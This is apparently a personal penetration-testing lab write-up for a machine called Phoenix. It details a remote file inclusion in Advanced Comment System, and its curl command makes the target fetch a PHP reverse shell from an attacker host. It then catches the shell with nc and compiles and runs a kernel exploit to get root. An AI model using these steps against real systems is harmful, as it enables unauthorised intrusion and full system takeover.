

10.11.1.8 Phoenix
nmap showed that an assload of ports were open.
while enumerating 80 robots.txt pointed me towards /internal.
The source code of /internal showed me that the machine was running advanced commenting system.
searchsploit showed me that I could craft a curl command to get code execution.
curl -s “http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://192.168.119.167:443/80.txt%00”
note --I think the trailing %00 makes the file execute as a .php or maybe adds the extension and executes it.
80.txt is pentestmonkey's phpshell.php edited and renamed.
catch reverse shell with nc.
uname -a shows 2.6.9-89
This kernel is vulnerable to 9545 and 9542. 9545 I could not get to work, some kind of job handler thing.
on the x86 kali I compiled the exploit and moved it via github
gcc -Wall -Wl,--hash-style=both -o 9542 9542.c
uploaded with wget, chmoded, executed and popped a root shell in the same termainal.
f56a325ef00d4553a4046b7eacc5d667